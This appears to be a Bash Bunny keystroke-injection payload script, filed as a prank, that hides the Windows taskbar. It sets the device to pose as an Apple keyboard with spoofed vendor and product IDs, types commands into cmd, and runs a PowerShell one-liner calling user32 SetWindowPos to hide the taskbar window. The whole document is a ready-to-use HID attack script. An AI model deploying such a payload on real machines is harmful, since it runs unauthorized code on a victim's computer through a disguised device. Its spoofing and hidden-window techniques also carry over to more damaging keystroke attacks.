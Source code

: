 # Title:        Hide-StartBar
# Description:  Hides the Windows startbar
# Author:       Cribbit
# Version:      1.0
# Category:     pranks
# Target:       Windows 7+ (Powershell)
# Attackmodes:	HID
# Extensions:   Run
# Notes:	0x0080 = SWP_HIDEWINDOW, 0x0040 = SWP_SHOWWINDOW	

LED SETUP

ATTACKMODE HID VID_0X05AC PID_0X021E

LED ATTACK

Q DELAY 200
RUN WIN "cmd"
Q DELAY 100
Q STRING "mode con:cols=18 lines=1"
Q ENTER
Q STRING "color FE"
Q ENTER
Q STRING "powershell \"\$w=Add-Type -Namespace Win32 -Name Funcs -PassThru -MemberDefinition '[DllImport(\\\"user32.dll\\\")] public static extern IntPtr FindWindow(String C, String A); [DllImport(\\\"user32.dll\\\")] public static extern bool SetWindowPos(IntPtr H,IntPtr A,int X,int Y,int C,int D,uint F);';\$w::SetWindowPos(\$w::FindWindow('Shell_traywnd',''),0,0,0,0,0,0x0080);\""
Q DELAY 100
Q ENTER
Q STRING exit
Q ENTER

LED FINISH

